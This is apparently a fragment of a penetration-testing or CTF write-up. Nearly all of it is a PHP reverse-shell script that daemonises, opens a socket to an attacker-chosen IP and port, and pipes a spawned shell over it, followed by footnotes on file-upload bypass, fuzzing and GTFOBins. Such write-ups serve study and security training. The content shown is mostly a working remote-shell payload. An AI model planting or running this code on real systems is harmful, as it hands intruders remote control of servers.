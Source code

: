 ```php
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);
```

[^1]: [Arbitrary File Upload Vulnerability](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
[^2]: [File upload bypass](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass)
[^3]: [Fuzzing](https://www.sysadminok.es/blog/ciberseguridad/que-es-y-para-que-sirve-el-fuzzing-un-enfoque-integral-a-la-seguridad-de-software/)
[^4]: [Wfuzz Github](https://wfuzz.readthedocs.io/en/latest/)
[^5]: [GTFOBins docu](https://gtfobins.github.io)